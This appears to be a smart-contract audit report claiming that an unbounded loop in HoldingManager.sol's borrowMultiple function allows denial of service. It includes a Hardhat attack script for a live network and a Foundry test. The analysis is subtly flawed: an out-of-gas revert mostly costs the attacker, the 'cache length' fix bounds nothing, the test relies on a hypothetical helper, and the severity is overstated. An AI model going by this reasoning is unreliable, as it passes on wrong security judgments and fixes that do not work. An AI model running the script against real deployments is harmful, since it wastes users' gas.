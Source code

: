 # Unbounded Loop in `borrowMultiple` Enables DoS via Oversized `_data` (HoldingManager.sol)

## Summary
The `borrowMultiple` function iterates directly over the user‑supplied `_data` array without bounding its length. An attacker can craft a transaction with an excessively long `_data` array, causing the loop to consume all available block gas and effectively **block other users from borrowing** (denial‑of‑service).

## Finding Description
At **line 309** in `HoldingManager.sol`:

```solidity
for (uint256 i = 0; i < _data.length; i++) {
```

Because `_data.length` is **completely under user control**, an attacker can supply a huge array:

```solidity
BorrowData[] calldata _data  // supplied by caller
```

Each iteration performs:

1. A storage read (`_getStablesManager()`).
2. An external call to `borrow` that includes:
   * State‑changing logic in another contract.
   * Multiple events (`Borrowed`, `BorrowedMultiple`).

Repeated thousands of times, this guarantees the transaction **exceeds the block gas limit**, wasting miner/validator effort and **reverting the entire transaction**. While miners can still include such a tx if the attacker pays enough gas, **legitimate users** will see their own calls stuck behind these bloated tx attempts or will pay inflated gas prices.  
If a malicious user continually submits these over‑long transactions, they can **lock up** the `borrowMultiple` functionality for everyone (DoS).

### Key Reasons This Is Critical
* **Externally controlled loop bound** — worst‑case O(n) with n unbounded.  
* **Heavy body** — each iteration performs an external call that may itself be expensive.  
* **Core functionality** — borrowing is likely a high‑frequency, business‑critical path.

## Impact Explanation
* **Denial‑of‑Service:** A single attacker can repeatedly spam transactions, keeping the contract in a reverting state, clogging the mempool and denying legitimate borrowers.  
* **Gas griefing:** Even if the transaction is mined, it can consume near‑block‑gas, disincentivizing validators from including other important transactions in the same block.  
* **Economic Damage:** Borrowers unable to open positions may miss liquidation windows or arbitrage opportunities, leading to cascading financial loss.

Given borrowing is fundamental to protocol utility, the impact is rated **High**.

## Likelihood Explanation
* **Low technical barrier:** No special permissions; any user can call `borrowMultiple`.  
* **Cheap for attacker:** Crafting a large calldata array is trivial; even if reverted, attacker pays only the intrinsic gas.  
* **Block‑level persistence:** Attack can be automated via bots to maintain pressure.

Overall **likelihood is Medium–High**.

## Proof of Concept

### ⚙️ Normal Script (Hardhat/Node)
```javascript
// scripts/dosBorrowMultiple.js
const { ethers } = require("hardhat");

async function main() {
  const hm = await ethers.getContractAt("HoldingManager", "<HM_ADDRESS>");
  const tokenAddr = "<STABLE_TOKEN>";
  const big = ethers.BigNumber.from;
  const entries = 5000; // adjust until near block gas limit

  let data = [];
  for (let i = 0; i < entries; i++) {
    data.push({
      token: tokenAddr,
      amount: big("1"),
      minJUsdAmountOut: big("0")
    });
  }

  const tx = await hm.borrowMultiple(data, false, { gasLimit: 30_000_000 });
  console.log("tx submitted:", tx.hash);
}

main();
```
Run with:
```bash
npx hardhat run scripts/dosBorrowMultiple.js --network <target>
```
The tx **reverts for running out of gas**, but ties up the mempool and wastes gas.

---

### 🛠 Foundry Test

```solidity
// test/BorrowMultipleDoS.t.sol
// forge test -vv

pragma solidity ^0.8.20;

import "forge-std/Test.sol";
import "../src/HoldingManager.sol";
import "../src/Mocks/MockStablesManager.sol";

contract BorrowMultipleDoS is Test {
    HoldingManager hm;
    MockStablesManager sm;
    address attacker = address(0xA11CE);

    function setUp() public {
        sm = new MockStablesManager();
        hm = new HoldingManager(address(sm));
        // assume HoldingManager constructor wires deps & creates holding for attacker
        vm.prank(attacker);
        hm.registerHolding(); // hypothetical helper
    }

    function testGasExhaustion() public {
        vm.startPrank(attacker);

        uint256 entries = 6000; // tune per environment
        HoldingManager.BorrowData[] memory data = new HoldingManager.BorrowData[](entries);

        for (uint256 i = 0; i < entries; i++) {
            data[i] = HoldingManager.BorrowData({
                token: address(0xDEADBEEF),
                amount: 1 ether,
                minJUsdAmountOut: 0
            });
        }

        // Expect revert due to out‑of‑gas
        vm.expectRevert();
        hm.borrowMultiple(data, false);

        vm.stopPrank();
    }
}
```

Running `forge test` will show the function reverts once gas exceeds the limit, proving the DoS vector.

## Recommendation
**Option 1: Cache Length**
```solidity
uint256 len = _data.length;
for (uint256 i = 0; i < len; i++) { ... }
```

**Option 2: Explicit Limit**
```solidity
uint256 len = _data.length;
require(len <= dataLimit, "Too many data entries");
```
Where `dataLimit` is a *mutable* storage variable set via governance.

Either solution removes the unbounded loop condition and thwarts gas‑griefing attacks.
